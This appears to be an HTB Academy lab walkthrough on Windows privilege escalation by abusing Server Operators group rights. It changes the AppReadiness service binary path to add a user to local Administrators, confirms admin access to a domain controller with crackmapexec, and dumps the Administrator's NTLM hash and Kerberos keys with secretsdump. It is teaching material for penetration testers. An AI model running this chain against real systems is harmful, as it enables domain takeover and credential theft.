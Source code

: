 # Server Operators

The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)
 group allows members to administer Windows servers without needing 
assignment of Domain Admin privileges. It is a very highly privileged 
group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.

### Querying the AppReadiness Service

Let's examine the `AppReadiness` service. We can confirm that this service starts as SYSTEM using the `sc.exe` utility.

```
C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

### Checking Service Permissions with PsService

We can use the service viewer/controller [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), which is part of the Sysinternals suite, to check permissions on the service. `PsService` works much like the `sc`
 utility and can display service status and configurations and also 
allow you to start, stop, pause, resume, and restart services both 
locally and on remote hosts.

```
C:\htb> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All
```

### Checking Local Admin Group Membership

Let's take a look at the current members of the local administrators group and confirm that our target account is not present.

```
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.
```

### Modifying the Service Binary Path

Let's change the binary path to execute a command which adds our current user to the default local administrators group.

```
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

**Starting the Service**

```
C:\htb> sc start AppReadiness

[SC] StartService FAILED 1053:
```

**even though the service says failed, our target user is added to local admin group**

```
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.
```

**Confirming Local Admin Access on Domain Controller**

```
doshim@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)
```

**Retrieving NTLM Password Hashes from the Domain Controller**

```
doshim@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administratorImpacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrator:aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrator:des-cbc-md5:d60dfbbf20548938
```